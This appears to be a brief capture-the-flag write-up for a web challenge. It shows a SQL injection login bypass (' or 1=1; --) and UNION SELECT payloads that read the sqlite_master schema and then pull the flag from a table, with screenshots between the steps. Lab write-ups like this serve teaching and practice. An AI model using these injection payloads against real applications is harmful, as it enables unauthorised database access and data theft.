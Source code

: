   ![image](https://github.com/nhattanhh/CTF/assets/130430279/263162c9-f183-4469-a2a9-a2a029a4e952)

  -try 
  +username: user
  +password: user

  You will received this:
  ![image](https://github.com/nhattanhh/CTF/assets/130430279/a2908bbb-16e5-484f-82fb-a92a5990bb6b)

  -try SQLinjection with password because here we can see they receive password first.
  +username: 1
  +password: ' or 1=1; --

  ![image](https://github.com/nhattanhh/CTF/assets/130430279/2e6a269a-5576-4f43-88e1-284b80b0984e)

  I think that this search box can execute sqli.
  try:  Algiers' union select sql,1,1 from sqlite_master;--

  ![image](https://github.com/nhattanhh/CTF/assets/130430279/3217e94e-907e-402e-8296-fc9f2cfb12ad)

  And:  Angiers' union select flag,1,1 from more_table;--

  ![image](https://github.com/nhattanhh/CTF/assets/130430279/fbf6bb2c-af9e-4ced-b497-27f037a565d0)

  *BOOM*


